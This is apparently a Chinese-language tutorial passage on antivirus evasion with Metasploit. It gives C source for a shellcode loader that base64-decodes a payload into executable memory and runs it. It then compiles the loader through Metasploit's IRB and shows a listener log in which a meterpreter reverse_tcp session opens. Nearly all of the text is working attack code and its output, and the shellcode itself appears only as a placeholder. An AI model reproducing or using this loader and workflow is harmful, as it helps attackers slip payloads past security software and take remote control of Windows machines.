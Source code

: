 构造如下shellcode,保存为`1.c`文件。

```c
#include <Windows.h>
#include <String.h>
#include <base64.h>

unsigned char BASE64STR[] =
"\x2f\x4f--shellcode--\x3d";

int main() {
  int base64StrLen = strlen(BASE64STR);
  LPVOID lpBuf = VirtualAlloc(NULL, sizeof(int) * base64StrLen, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  memset(lpBuf, '\0', base64StrLen);
  base64decode(lpBuf, BASE64STR, base64StrLen);
  //MessageBox(NULL, (char*)lpBuf, "Base64 Test", MB_OK);
  void(*func)();
  func = (void(*)()) lpBuf;
  (void)(*func)();
  return 0;
}
```

在msf中键入`irb`进入IRB shell,依次键入下面命令

```bash
msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> require 'metasploit/framework/compiler/windows'
=> false
>> exe = Metasploit::Framework::Compiler::Windows.compile_c(File.read('/root/msf/miansha/1.c'))
>> File.write('/root/msf/miansha/shellcode.exe', exe)
=> 3072
```

在输入上面的` File.write('/root/msf/miansha/shellcode.exe', exe)`之后，会生成shellcode.exe。

在msf监听，成功反弹shell,

```bash
msf5 > jobs

Jobs
====

  Id  Name                    Payload                          Payload opts
  --  ----                    -------                          ------------
  0   Exploit: multi/handler  windows/meterpreter/reverse_tcp  tcp://192.168.2.131:4444

msf5 > 
[*] Sending stage (176195 bytes) to 192.168.2.1
[*] Meterpreter session 6 opened (192.168.2.131:4444 -> 192.168.2.1:51412) at 2020-10-29 12:54:38 +0800

```
